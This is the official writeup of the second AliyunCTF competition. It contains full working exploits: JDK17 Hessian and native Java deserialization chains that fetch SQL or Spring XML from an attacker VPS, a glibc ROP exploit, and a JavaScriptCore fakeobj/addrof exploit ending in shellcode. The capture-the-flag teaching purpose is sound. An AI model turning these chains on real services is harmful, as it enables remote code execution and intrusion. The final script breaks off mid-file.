





# 第二届AliyunCTF官方writeup - 先知社区

# aliyunCTF官方writeup

# Web

## web签到

题目是一个简单的命令参数注入，对于 dig 命令可以用 `-f` 来读取文件

```plain
curl -H "Content-Type:application/json" -X POST --data '{"type":"-f/flag", "domain":"www.aliyunctf.com"}' http://localhost:23000/digHandler
```

## chain17

### 简介

JDK17 下的两条反序列化链. 一条 hessian, 一条原生. 主要考点是 JDK 17 下 JDK 内部的 sink 不能被反射调用, 需要寻找第三方 sink, 同时还要绕过反序列化黑名单.

### 题目流程

题目包含两个服务器, 第一个是开放了 5000 端口的 springboot 服务器(称为 agent), 第二个是开放了 8080 端口的 springboot 服务器(称为server). 只有 agent 对外部访问者开放, 所以参赛者需要先 RCE agent, 再通过 agent 访问 server, 最后 RCE server 读取 flag.

### agent

agent 端提供了一个 hessian 反序列化的入口, 和一个 getter 可以二次反序列化的 Bean 类作为 gadget, 同时启动选项里开放了 atomic 模块:

```plain
CMD ["java", "--add-opens", "java.base/java.util.concurrent.atomic=ALL-UNNAMED", "-jar", "/opt/agent/agent-0.0.1-SNAPSHOT.jar"]
```

题目在 springboot 环境下, pom.xml 文件里可以看到依赖包含 hutool, h2:

```plain
<dependency>
    <groupId>cn.hutool</groupId>
    <artifactId>hutool-all</artifactId>
    <version>5.8.16</version>
</dependency>

<dependency>
    <groupId>com.h2database</groupId>
    <artifactId>h2</artifactId>
    <version>2.2.224</version>
</dependency>
```

使用如下 hessian 反序列化链触发 H2 SQL 执行:

```plain
JSONObject.put -> AtomicReference.toString -> POJONode.toString -> Bean.getObject -> DSFactory.getDataSource -> Driver.connect
```

如下代码生成 base64 的 payload:

```plain
import cn.hutool.core.map.SafeConcurrentHashMap;
import cn.hutool.core.util.ReflectUtil;
import cn.hutool.core.util.SerializeUtil;
import cn.hutool.db.ds.pooled.PooledDSFactory;
import cn.hutool.json.JSONObject;
import cn.hutool.setting.Setting;
import com.alibaba.com.caucho.hessian.io.Hessian2Output;
import com.aliyunctf.agent.other.Bean;
import com.fasterxml.jackson.databind.node.POJONode;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import sun.misc.Unsafe;

import java.io.ByteArrayOutputStream;
import java.io.FileOutputStream;
import java.util.Base64;
import java.util.concurrent.atomic.AtomicReference;

// JDK17 VM options:
// --add-opens java.base/java.lang=ALL-UNNAMED --add-opens java.base/java.util.concurrent.atomic=ALL-UNNAMED --add-opens java.base/java.lang.reflect=ALL-UNNAMED
public class PocAgent {

    public static void main(String[] args) throws Exception {
        gen("runscript from 'http://localhost:8000/localhost.sql'");
    }

    public static void gen(String sql) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(byteArrayOutputStream);

        hessian2Output.writeMapBegin(JSONObject.class.getName());
        hessian2Output.writeObject("whatever");

        String url = String.format("jdbc:h2:mem:test;init=%s", sql);

        Setting setting = new Setting();
        setting.put("url", url);
        setting.put("initialSize", "1");
        setting.setCharset(null);

        Unsafe unsafe = (Unsafe) ReflectUtil.getFieldValue(null, ReflectUtil.getField(Unsafe.class, "theUnsafe"));

        PooledDSFactory pooledDSFactory = (PooledDSFactory) unsafe.allocateInstance(PooledDSFactory.class);

        ReflectUtil.setFieldValue(pooledDSFactory, "dataSourceName", PooledDSFactory.DS_NAME);
        ReflectUtil.setFieldValue(pooledDSFactory, "setting", setting);
        ReflectUtil.setFieldValue(pooledDSFactory, "dsMap", new SafeConcurrentHashMap<>());

        Bean bean = new Bean();
        bean.setData(SerializeUtil.serialize(pooledDSFactory));

        ClassPool classPool = ClassPool.getDefault();
        CtClass ctClass = classPool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod ctMethod = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(ctMethod);
        ctClass.toClass();

        POJONode pojoNode = new POJONode(bean);

        Object object = new AtomicReference<>(pojoNode);

        hessian2Output.writeObject(object);
        hessian2Output.writeMapEnd();
        hessian2Output.close();

        byte[] data = byteArrayOutputStream.toByteArray();

        System.out.println(Base64.getEncoder().encodeToString(data));
    }
}
```

在攻击者 VPS 准备如下 .sql 文件，里面的 base64 部分用来向 server 发送 payload

```plain
create alias send as 'int send(String url, String poc) throws java.lang.Exception { java.net.http.HttpRequest request = java.net.http.HttpRequest.newBuilder().uri(new java.net.URI(url)).headers("Content-Type", "application/octet-stream").version(java.net.http.HttpClient.Version.HTTP_1_1).POST(java.net.http.HttpRequest.BodyPublishers.ofString(poc)).build(); java.net.http.HttpClient httpClient = java.net.http.HttpClient.newHttpClient(); httpClient.send(request, java.net.http.HttpResponse.BodyHandlers.ofString()); return 0;}';
call send('http://server:8080/read', '<这里填打 server 的 base64 payload>')
```

### server

server 端提供了一个原生反序列化入口. 题目环境在 springboot 下, 在pom.xml 文件里可以看到依赖包含 jooq:

```plain
<dependency>
    <groupId>org.jooq</groupId>
    <artifactId>jooq</artifactId>
    <version>3.19.3</version>
</dependency>
```

使用如下原生反序列化链触发 SpEL 表达式执行:

```plain
EventListenerList.readObject -> POJONode.toString -> ConvertedVal.getValue -> ClassPathXmlApplicationContext.<init>
```

如下代码生成 base64 的 payload:

```plain
import cn.hutool.core.io.FileUtil;
import cn.hutool.core.util.ReflectUtil;
import cn.hutool.core.util.SerializeUtil;
import com.fasterxml.jackson.databind.node.POJONode;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import org.jooq.DataType;
import org.springframework.context.support.ClassPathXmlApplicationContext;

import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import java.io.File;
import java.lang.reflect.Constructor;
import java.util.Base64;
import java.util.Vector;

// JDK17 VM options:
// --add-opens java.base/java.lang=ALL-UNNAMED --add-opens java.base/java.util.concurrent.atomic=ALL-UNNAMED --add-opens java.base/java.lang.reflect=ALL-UNNAMED --add-opens java.desktop/javax.swing.undo=ALL-UNNAMED --add-opens java.desktop/javax.swing.event=ALL-UNNAMED
public class PocServer {

    public static void main(String[] args) throws Exception {
        gen("http://localhost:8000/poc.xml");
    }

    public static void gen(String url) throws Exception{
        Class clazz1 = Class.forName("org.jooq.impl.Dual");
        Constructor constructor1 = clazz1.getDeclaredConstructors()[0];
        constructor1.setAccessible(true);
        Object table = constructor1.newInstance();

        Class clazz2 = Class.forName("org.jooq.impl.TableDataType");
        Constructor constructor2 = clazz2.getDeclaredConstructors()[0];
        constructor2.setAccessible(true);
        Object tableDataType = constructor2.newInstance(table);

        Class clazz3 = Class.forName("org.jooq.impl.Val");
        Constructor constructor3 = clazz3.getDeclaredConstructor(Object.class, DataType.class, boolean.class);
        constructor3.setAccessible(true);
        Object val = constructor3.newInstance("whatever", tableDataType, false);

        Class clazz4 = Class.forName("org.jooq.impl.ConvertedVal");
        Constructor constructor4 = clazz4.getDeclaredConstructors()[0];
        constructor4.setAccessible(true);
        Object convertedVal = constructor4.newInstance(val, tableDataType);

        Object value = url;
        Class type = ClassPathXmlApplicationContext.class;

        ReflectUtil.setFieldValue(val, "value", value);
        ReflectUtil.setFieldValue(tableDataType, "uType", type);

        ClassPool classPool = ClassPool.getDefault();
        CtClass ctClass = classPool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod ctMethod = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(ctMethod);
        ctClass.toClass();

        POJONode pojoNode = new POJONode(convertedVal);

        EventListenerList eventListenerList = new EventListenerList();
        UndoManager undoManager = new UndoManager();
        Vector vector = (Vector) ReflectUtil.getFieldValue(undoManager, "edits");
        vector.add(pojoNode);
        ReflectUtil.setFieldValue(eventListenerList, "listenerList", new Object[]{InternalError.class, undoManager});

        byte[] data = SerializeUtil.serialize(eventListenerList);

        System.out.println(Base64.getEncoder().encodeToString(data));
    }

}
```

在攻击者 VPS 准备如下.xml，里面的 exec 部分用来执行指令，可以使用反弹 shell 读取 flag。

```plain
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="evil" class="java.lang.String">
        <constructor-arg value="#{T(Runtime).getRuntime().exec('touch /tmp/pwnned')}"/>
    </bean>
</beans>
```

## Pastbin

可以通过竞争 /flag 与 /about 获取到 FLAG ，有多种并发方式，以下提供一种使用 python 的执行并发的方式，仅供参考，后续会提供详细分析的 writeup放在评论区

```plain
import asyncio
import aiohttp

async def send_request(session, url):
    while True:
        async with session.get(url) as resp:
            text = await resp.text()
            if "aliyunctf" in text:
                print(f"Found 'aliyunctf' in URL: {url}")
                print(text)
                exit()
            print(f"URL: {url}, Status: {resp.status}")

async def main():
    urls = ["http://localhost:28080/about", "http://localhost:28080/flag"]
    concurrency_per_url = 20

    async with aiohttp.ClientSession() as session:
        tasks = []
        for url in urls:
            for _ in range(concurrency_per_url):
                tasks.append(send_request(session, url))

        await asyncio.gather(*tasks)

if __name__ == "__main__":
    asyncio.run(main())
```

## easyCAS

首先根据 题目描述 知道账号密码是 `apereo` 默认的。

去 `github` 下载源码：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240326184436-d723fc4c-eb5d-1.png)

`5.3.16` ：[https://github.com/apereo/cas-overlay-template/tree/5.3](https://github.com/apereo/cas-overlay-template/tree/5.3)

拿下来后，`maven` 下载依赖，打开 `application.properties` :

```plain
overlays\org.apereo.cas.cas-server-webapp-tomcat-5.3.16\WEB-INF\classes\application.properties
```

得到默认

账号：`casuser`

密码：`Mellon`

```plain
cas.authn.accept.users=casuser::Mellon
```

登陆前点击 `Dashboard`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240326184507-e995b3ca-eb5d-1.png)

点击以后会跳转到：

```plain
http://127.0.0.1:8080//login?service=http%3A%2F%2F题目地址%3A服题目端口%2Fstatus%2Fdashboard
```

然后把 `127.0.0.1:8080` 改成目标的 ip 和端口

再次访问会出来如下框框：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240326184533-f91bc2c6-eb5d-1.png)

然后登陆：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240326184558-078e180e-eb5e-1.png)

跳转到此处，此时 `PATH` 为：`/status/dashboard` ，修改访问： `/status/heapdump`下载内存。

打开 `MAT` :[https://www.eclipse.org/mat/downloads.php](https://www.eclipse.org/mat/downloads.php)

分析内存，这就要考到题目第一个难点，需要知道 `apereo` 这款 `CAS` 对登陆参数 `execution`的加密细节：

首先定位到类： `org.apereo.cas.web.flow.actions.CasDefaultFlowUrlHandler`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240326184617-135848ee-eb5e-1.png)

此处是获取 `exeuction` 的值，在此处下断点即可。

断下后看调用栈找到：

`org.springframework.webflow.mvc.servlet.FlowHandlerAdapter`的`handle`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240326184637-1f420212-eb5e-1.png)

获取 `execution` 以后跟进箭头指向的函数：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240326184700-2ce22ac8-eb5e-1.png)

该函数在：`org.springframework.webflow.executor.FlowExecutorImpl`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240326184717-36924fd0-eb5e-1.png)

跟如 `getFlowExecution` 函数：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240326184736-426d9c2e-eb5e-1.png)

接着跟入：`decode`函数：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240326184801-514c99d4-eb5e-1.png)

跟如 `decrypt` 函数，在 `org.apereo.cas.util.cipher.BaseBinaryCipherExecutor`:

[](https://xzfile.aliyuncs.com/media/upload/picture/20240326184825-5f4481b4-eb5e-1.png)

在这个函数就是解密的最后一段，看看这个类的初始化函数：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240326184849-6d6bebe2-eb5e-1.png)

这两个 `key` 是比较关键的，现在我们知道了类在：

`org.apereo.cas.util.cipher.BaseBinaryCipherExecutor` 直接去下载好的 `heapdump`搜索即可，用 `MAT` 的 `OQL` 查询（WebConflowConversationStateCipherExecutor 是 BaseBinary 的子类）：

```plain
select * from org.apereo.cas.util.cipher.WebConflowConversationStateCipherExecutor
```

保存 `encryptionSecretKey` 和 `signingKey` ：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240326184912-7b2e4568-eb5e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240326184932-8765a7f4-eb5e-1.png)

用 `idea` 打开 `exp` 中的项目，修改 `src/test/java/exp5316.java` 里面的两个文件的绝对路径，运行都得到一段 `base64`，复制以后抓一下登陆包，修改一下 `execution` 参数 `uuid` 后面的即可：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240326184956-959ddf4e-eb5e-1.png)

然后再`post`中加入一个 `cmd` 参数：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240326185015-a0c103ec-eb5e-1.png)

执行成功，获取 `flag` ：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240326185035-accfc088-eb5e-1.png)

# Pwn

## pwn签到

利用add函数从unsortbin当初切割一个chunk，且保留了libc地址，将其泄露获取libc。 通过输入flag进入有漏洞的scanf函数进行栈溢出。

```plain
#coding=utf-8

from pwn import *

context.log_level = "debug"
# context.arch = "i386"
context.arch = "amd64"

menu=""
sh = 0
lib = 0
elf =ELF('pwn-sign_in')
libc=ELF("./libc-2.31.so")

""" """
l64 = lambda      :u64(sh.recvuntil(b"\x7f")[-6:].ljust(8,b"\x00"))
l32 = lambda      :u32(sh.recvuntil(b"\xf7")[-4:].ljust(4,b"\x00"))
leak  = lambda name,data : sh.success(name + ": 0x%x" % data)
s  = lambda payload: sh.send(payload)
sa  = lambda a,b  :sh.sendafter(str(a),str(b))
sl  = lambda payload: sh.sendline(payload)
sla = lambda a,b  :sh.sendlineafter(str(a),str(b))
ru  = lambda a     :sh.recvuntil(str(a))
r  = lambda a     :sh.recv(str(a))
""" """

def b(addr):
    bk="b *$rebase("+str(addr)+")"
    # bk="b *"+str(addr)
    attach(sh,bk)
    success("attach")
def pwn(ip,port,debug):
    global sh
    global libc
    if(debug == 1):
        sh = process("./pwn9")
    else:
        sh = remote(ip,port)


    sla("hhh","1")
    sla("size???","96")
    sleep(0.1)
    s("\n")
    ru("Lucky Numbers")

    """
    show
    flag[0]<flag[15]
    flag[1]<flag[13]
    flag[2]>flag[10]
    flag[3]!=flag[11]
    flag[4]>flag[12]
    flag[5]<flag[14]

    flag[6]+flag[7]==flag[8]+flag[9]
    """

    flag=[50,50,50,50,50,50,50,50,50,50,10,100,10,100,100,100]
    for i in range(16):
        sleep(0.1)
        sl(str(flag[i]))


    #x/gx $rebase(0x00000000000056E0)
    sla("hhh","2")
    libc_base=l64()-libc.sym["__malloc_hook"]-0x10-1168
    # libc_base = 0x00007ffff7dcd000
    leak("libc_base",libc_base)

    """
    vuln0
    flag[0]<flag[15]
    flag[1]>flag[13]
    flag[2]>flag[10]
    flag[3]==flag[11]
    flag[4]>flag[12]
    flag[5]<flag[14]
    flag[6]+flag[7]>flag[8]+flag[9]
    """

    sla("hhh","1")
    sla("size???","96")
    sleep(0.1)
    s("\n")
    ru("Lucky Numbers")
    flag=[50,50,50,50,50,50,50,50,50,10,10,100,10,10,100,100]
    for i in range(16):
        sleep(0.1)
        sl(str(flag[i]))


    p_di=libc_base+0x0000000000023b6a
    p_si=libc_base+0x000000000002601f
    p_dx_12=libc_base+0x0000000000119431

    read_=libc_base+libc.sym["read"]
    puts=libc_base+libc.sym["puts"]
    open_=libc_base+libc.sym["open"]

    malloc_hook=libc_base+libc.sym["__malloc_hook"]

    #read ./flag
    orw=str(p_di& 0xffffffff)+"\n"
    orw+=str(p_di>> 32)+"\n"
    orw+=str(0)+"\n"+str(0)+"\n"
    orw+=str(p_si& 0xffffffff)+"\n"
    orw+=str(p_si>> 32)+"\n"
    orw+=str(malloc_hook& 0xffffffff)+"\n"
    orw+=str(malloc_hook>> 32)+"\n"
    orw+=str(read_& 0xffffffff)+"\n"
    orw+=str(read_>> 32)+"\n"

    #open ./flag
    orw+=str(p_di& 0xffffffff)+"\n"
    orw+=str(p_di>> 32)+"\n"
    orw+=str(malloc_hook& 0xffffffff)+"\n"
    orw+=str(malloc_hook>> 32)+"\n"
    orw+=str(p_si& 0xffffffff)+"\n"
    orw+=str(p_si>> 32)+"\n"
    orw+=str(0)+"\n"+str(0)+"\n"
    orw+=str(open_& 0xffffffff)+"\n"
    orw+=str(open_>> 32)+"\n"

    ##read flag
    orw+=str(p_di& 0xffffffff)+"\n"
    orw+=str(p_di>> 32)+"\n"
    orw+=str(3)+"\n"+str(0)+"\n"
    orw+=str(p_si& 0xffffffff)+"\n"
    orw+=str(p_si>> 32)+"\n"
    orw+=str(malloc_hook& 0xffffffff)+"\n"
    orw+=str(malloc_hook>> 32)+"\n"
    orw+=str(p_dx_12& 0xffffffff)+"\n"
    orw+=str(p_dx_12>> 32)+"\n"
    orw+=str(100)+"\n"
    orw+=str(0)+"\n"
    orw+=str(100)+"\n"
    orw+=str(0)+"\n"
    orw+=str(read_& 0xffffffff)+"\n"
    orw+=str(read_>> 32)+"\n"

    orw+=str(p_di& 0xffffffff)+"\n"
    orw+=str(p_di>> 32)+"\n"
    orw+=str(malloc_hook& 0xffffffff)+"\n"
    orw+=str(malloc_hook>> 32)+"\n"
    orw+=str(puts& 0xffffffff)+"\n"
    orw+=str(puts>> 32)+"\n"

    payload="96\n"*0x42+"-\n"*4+orw


    pause()
    sla("hhh","2")
    sla("xmki","a"*113)
    sl(payload)
    success(hex(len(payload)))
    sl("./flag.txt\x00\n"*3)


    """
    payload += str(addr & 0xffffffff) + "\n"
    payload += str(addr >> 32)+"\n"
     b *$rebase(0x00000000000022F1)
    """

    sh.interactive()
if __name__ == "__main__":
    pwn("xxx.xxx.xxx",9999,0)
```

## BadApple

参考链接：

1.  [https://blog.exodusintel.com/2023/12/11/safari-hold-still-for-nan-minutes/](https://blog.exodusintel.com/2023/12/11/safari-hold-still-for-nan-minutes/)
2.  [https://www.youtube.com/watch?v=k1wEJFqirT8](https://www.youtube.com/watch?v=k1wEJFqirT8)

看 `diff` 可以看到去掉了对 `purifyNaN` 的掉用，直接掉用了 `boxDouble`。而 `boxDouble` 的输入是可以完全控制的，所以我们可以控制 `boxDouble` 的输出在 JSC 看来不再是一个 `Double` 而是一个 `Object`。

```plain
let abuf = new ArrayBuffer(0x10);
let bbuf = new BigUint64Array(abuf);
let fbuf = new Float64Array(abuf);

obj = {x:1234, y:1234};

function trigger(arg, a2) {
    for (let i in obj) {
        obj = [1];
        let out = arg[i];
        a2.x = out;
    }
}

function main() {

    t = {x: {}};
    trigger(obj, t);

// [1]
    for (let i = 0 ; i ＜ 0x1000; i++) {
      trigger(fbuf,t);
    }

// [2]
    bbuf[0] = 0xfffe0000_12345678n;
    trigger(fbuf, t);

// [3]
    t.x;
}

main()
```

这样我们就得到了 `fakeobj` 的原语。但是还没有泄漏，可以使用参考文章中的技巧，结合 `fakeobj` 原语和 `===`，通过爆破实现 `addrof` 原语。可以发现在 ubuntu 20.04 上，低 24bit 是可以预测的，所以可以很快爆破出地址。接着就可以在 JS 堆上伪造对象了。通过修改伪造对象的 butterfly，可以实现更稳定的 `addrof`，以及任意地址读写。最后写函数 JIT 后的 RWX 内存实现任意代码执行。详情见 `exp.min.js`

```plain
python exp.py exp.min.js
```

exp.py:

```plain
from pwn import *
import subprocess
import sys
import string
import hashlib

context.log_level = "debug"
p = remote("0.0.0.0", 5000)
table = string.ascii_letters + string.digits + "+/"

def pow():
    p.recvuntil('sha256(XXXX + "')
    post = p.recvuntil('") == ', drop=True).decode("latin1")
    h = p.recvline().strip().decode("latin1")
    print(post)
    print(h)
    p.recvuntil("XXXX")
    for a1 in table:
        print(a1)
        for a2 in table:
            for a3 in table:
                for a4 in table:
                    pre = a1+a2+a3+a4
                    if h == hashlib.sha256((pre+post).encode("latin1")).hexdigest():
                        print(pre)
                        p.sendline(pre)
                        return

pow()
p.recvuntil(">>> ")
with open(sys.argv[1], "rb") as f:
    data = f.read()

p.sendline(data)
p.recvuntil("$")
p.sendline("cat /flag*")
p.interactive()
```

exp.min.js:

```plain
let fake1 = {c:1.1, d:2.2};let fake2 = {c:1.1, d:{}};fake2[0] = 1.1;fake2[1] = 1.1;fake2[2] = 1.1;fake2[3] = 1.1;let abuf = new ArrayBuffer(0x10);let bbuf = new BigUint64Array(abuf);let fbuf = new Float64Array(abuf);let ffbuf = new Float64Array(abuf);bbuf[0] = 0x01001800000099f0n-0x0002000000000000n;fake1.c = ffbuf[0];bbuf[0] = 0x0100180600009a60n;fake2[0] = ffbuf[0];obj = {x:1234, y:1234};function print(a) {}function bftrigger(arg, a2) {    for (let i in obj) {        obj = [1];        let out = arg[i];        if (out === a2.x) {            return true;        } else {            return false;        }    }}obj2 = {x:1234, y:1234};function trigger(arg, a2) {    for (let i in obj2) {        obj2 = [1];        let out = arg[i];        a2.x = out;    }}let t2 = {x: {}};trigger(obj, t2);bbuf[0] = 0x00000000_00000000n;for(let i = 0; i < 0x800; i++) {    trigger(fbuf, t2);}let t = {x: {}};bftrigger(obj, t);for(let i = 0; i < 0x800; i++) {    bftrigger(fbuf, t);}function leak(object_to_leak) {    let addr = 0x7f00_0000_0000n;    let to_leak = {x: object_to_leak};    for (let i=0n; i<0xff_ffff_ffffn; i+=0x1000000n) {        let current_addr = addr + i + 0x4f8140n;        if ((i&0xfffffffffn) == 0) {            print(current_addr.toString(16))        }        bbuf[0] = 0xfffe0000_00000000n+current_addr;        let result = bftrigger(fbuf, to_leak);        if (result) {            print('Found the address at: 0x'+ current_addr.toString(16));            return current_addr;        }    }    return 0;}function exp() {    let fake1_addr = leak(fake1);    if (fake1_addr==0) {        return    }    fake1_addr = fake1_addr+0x10n;    bbuf[0] = 0xfffe0000_00000000n+fake1_addr;    trigger(fbuf, t2);    let fake_obj = t2.x.d;    let fake_bf = fake1_addr+0x8n;    bbuf[0] = fake_bf;    fake2[1] = ffbuf[0];    ffbuf[0] = fake_obj[2];    let butterfly_addr = bbuf[0];    print("Leak butterfly addr: 0x" + butterfly_addr.toString(16));    function addrof(obj) {        fake2.d = obj;        ffbuf[0] = fake_obj[4];        return bbuf[0];    }    function read64(addr) {        bbuf[0] = addr;        fake2[1] = ffbuf[0];        ffbuf[0] = fake_obj[0];        let res = bbuf[0];        bbuf[0] = fake_bf;        fake2[1] = ffbuf[0];        return res;    }    function write64(addr, data) {        bbuf[0] = addr;        fake2[1] = ffbuf[0];        bbuf[0] = data;        fake_obj[0] = ffbuf[0];        bbuf[0] = fake_bf;        fake2[1] = ffbuf[0];    }    let addr = addrof(bftrigger);    print(addr.toString(16));    addr = read64(addr+0x18n);    print(addr.toString(16));    addr = read64(addr+0x8n);    print(addr.toString(16));    let rwx = read64(addr+0x10n);    print("Leak RWX addr: 0x" + rwx.toString(16));    let shellcode = [-1.1406995792869598e-244, 7.237521960842062e-308, -1.1399357607410871e-244, 9.780209880692209e+26, -2.6607797970378774e-254, 1.7806249655998242e-22, 3.9690202623744235e+146, 7.34038447708115e+223, 3.3819935e-317, 0];    bbuf[0] = rwx+0xbn;    fake2[1] = ffbuf[0];    shellcode.forEach((sc, i) => {        fake_obj[i] = sc;    });    bftrigger();}exp();while(1){}
```

## klang

题目实现了一个非常简单的编译器，其中存在许多bug。

### 预期解法

通过阅读代码生成的寄存器分配部分可以发现其中的逻辑非常不合理：替换虚拟寄存器时若遇到Spill的情况只将Live interval后半段替换为Spill slot。这样会导致程序控制流在存在backedge的情况下出现错误。利用这个bug可以将array和string类型的变量进行混淆。

#### exploit

exp.klang

```plain
function main() : array x -> int {
    prints("hello");
    x := hack();
    printi(x[0]);
    x[0] := inputi();
    prints("/bin/sh");
    return 0;
}

function hack() : array a, int b, array c, array d, array e, array f, array g, string h, string i -> array {
    a := array_new(4);
    b := 1;
    c := array_new(4); 
    d := array_new(4); 
    e := array_new(4); 
    f := array_new(4); 
    g := array_new(4);

    do {
        b := inputi();
        if(b == 1234) {
            c := array_new(c[0]); 
            d := array_new(d[0]); 
            e := array_new(e[0]); 
            f := array_new(f[0]); 
            g := array_new(g[0]);
        };
        b := b - 1;
        i := inputs();
        h := inputs();
    } while(b > 0);
    printi(b);
    return d;
}
```

x.py

```plain
#!/usr/bin/env python3

from pwn import *
import os

context.log_level = "DEBUG"

LOCAL = False

def local_compile(src):
  src_path = os.path.abspath(src)
  cwd = os.getcwd()

  os.chdir("./build")
  if os.system("cmake --build .") != 0:
    raise Exception("Failed to build")
  if os.system("./compiler/klang %s" % src_path) != 0:
    raise Exception("Failed to compile src")
  if os.system("gcc -no-pie -o out out.S ../runtime/*") != 0:
    raise Exception("Failed to link")
  assert os.path.exists("out"), "out does not exist"
  os.chdir(cwd)

def proof_of_work(chal, n):
  r = 0
  while True:
    s = chal + struct.pack("<Q", r)
    h = int(hashlib.sha256(s).hexdigest(), 16)
    if h % (2 ** n) == 0:
      break
    r += 1
  return r

def send_token(p):
  p.recvuntil(b"Give me your team token.\n")
  p.sendline(b"test")

def solve_pow(p):
  p.recvuntil(b"Run the pow script with: ./pow_solver.py ")
  chal = p.recvuntil(b" ", drop=True)
  difficulty = int(p.recvuntil(b" ", drop=True).decode())
  p.recvline()

  solution = proof_of_work(chal, difficulty)
  p.sendline(str(solution).encode())

def send_src(p, src):
  p.recvuntil(b"Give me your code, ended by a line with 'END_OF_SNIPPET' (excluding quote).\n")
  lines = open(src, 'r').readlines()
  for line in lines:
    p.sendline(line.strip().encode())
